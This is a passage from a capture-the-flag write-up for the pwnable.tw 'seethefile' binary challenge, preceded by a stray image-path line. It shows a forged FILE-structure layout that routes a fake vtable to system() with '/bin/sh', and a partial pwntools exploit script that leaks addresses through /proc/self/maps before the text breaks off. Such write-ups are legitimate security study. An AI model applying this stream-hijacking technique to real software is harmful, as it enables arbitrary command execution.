 ```
name -> 0xFFFFDFFF       - _flags
+4   -> ;/bi             - _IO_read_ptr
+8   -> n/sh             - _IO_read_end
+12  -> /x00AAA          - _IO_read_base
+16  -> AAAA             - _IO_write_base
....
fp   -> name addr        - _IO_buf_end
+4   -> AAAA             - _IO_save_base
....
+40  -> filename addr+36  - _lock  - _dummy (vtable)
+44  -> fp addr+40       - vtable - _dummy2 (vtable)
+48  -> system addr      - __finish (vtable)
```

##### Exploit
```py
from pwn import *

exe = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *main")
    else:
        r = remote("chall.pwnable.tw", 10200)

    return r

def open_file (p, name):
    p.sendlineafter (b'Your choice :', b'1')
    p.sendlineafter (b':', name)

def read_file (p):
    p.sendlineafter (b'Your choice :', b'2')

def write_file (p):
    p.sendlineafter (b'Your choice :', b'3')

def close_file (p):
    p.sendlineafter (b'Your choice :', b'4')

def exit_process (p, payload):
    p.sendlineafter (b'Your choice :', b'5')
    p.sendlineafter (b'Leave your name :', payload)

def main():
    p = conn()
    name = 0x0804B260
    fp = 0x0804b280
    filename = 0x0804B080
    open_file (p, b'/proc/self/maps')
    read_file (p)
    read_file (p)
    write_file (p)
    # p.recvuntil (b'0 rw-p 00000000 00:00 0 \n')
    p.recvuntil (b'[heap]\n')
    temp = p.recv (8).decode ('utf-8')
```